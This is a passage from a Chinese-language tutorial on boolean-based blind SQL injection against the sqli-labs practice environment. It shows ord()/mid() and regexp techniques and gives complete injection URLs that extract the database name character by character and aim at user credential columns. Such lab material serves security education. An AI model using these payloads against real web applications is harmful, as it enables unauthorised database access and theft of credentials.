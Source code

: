 其他部分不作测试,列名:id、admin、username、password等,我们主要以username和password两列为主;

## 1.3.ord()&mid()

通过以上布尔型盲注后可以获取数据库、表和字段名等信息;其实ord和mid函数的作用和上面我们说的ascii和substr函数一致.

```bash
格式:
ord(string)     对获取的字符进行ascii码转换;
mid((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1)    截取字段中第一行的第一个字符;
mid(column_name,start[,length])
```

### 1.3.1.爆库

```bash
URL:第一个字符的ASCII码
http://sqli-labs.me:8888/Less-6/?id=1" and ord(mid((select database()),1,1))=115--+
```

![bool12](/images/sqlall/bool12.jpg)

```bash
其他URL:
http://sqli-labs.me:8888/Less-6/?id=1" and ord(mid((select database()),2,1))=101--+
```

后续的注入语句可以参考上面.

## 1.4.regexp正则

通过上面方法我们已经获取数据库和表,此时就是获取字段信息;而,正则表达式法,主要是利用布尔型进行模糊匹配.

```bash
格式:regexp '^…'
regexp ‘^…'  and 1=(select 1 from information_schema.columns where table_name='users' and column_name regexp '^us[a-z]' limit 0,1)
--+
```

### 1.4.1.爆库

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and 1=(select 1 and database() regexp '^[a-z]' limit 0,1) --+
```

![bool13](/images/sqlall/bool13.jpg)

```bash
其他URL:
http://sqli-labs.me:8888/Less-6/?id=1" and 1=(select 1 and database() regexp '^[s-s]' limit 0,1) --+
```
